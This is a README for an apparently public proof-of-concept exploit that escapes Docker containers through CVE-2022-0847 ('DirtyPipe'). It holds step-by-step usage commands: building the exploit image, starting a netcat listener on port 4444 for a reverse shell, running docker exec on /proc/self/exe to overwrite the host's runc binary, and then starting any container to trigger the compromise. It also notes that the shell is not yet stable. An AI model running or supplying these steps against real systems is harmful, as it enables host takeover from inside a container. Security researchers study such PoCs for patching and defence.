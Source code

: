 # DirtyPipe PoC
Container Excape PoC for CVE-2022-0847 "DirtyPipe"

*Note: Shell is not yet stable. May need staged payload or a different methodology.*

## Usage
1. Build
```
$ docker build -t dirtypipe .
$ docker run --name dirtypipe -it dirtypipe
```

2. Start listener in another terminal:
`$ nc -nlvp 4444`

3. In yet another terminal:
```
$ docker exec -it dirtypipe /proc/self/exe # may need to be repeated a few times
```

4. Once runc is overwritten, run any container (or exec again)
```
$ docker run -it ubuntu:latest
```

## Screenshots
![image](https://user-images.githubusercontent.com/85519958/157522451-6b26a3a2-950c-4350-aa37-35987b7d4199.png)
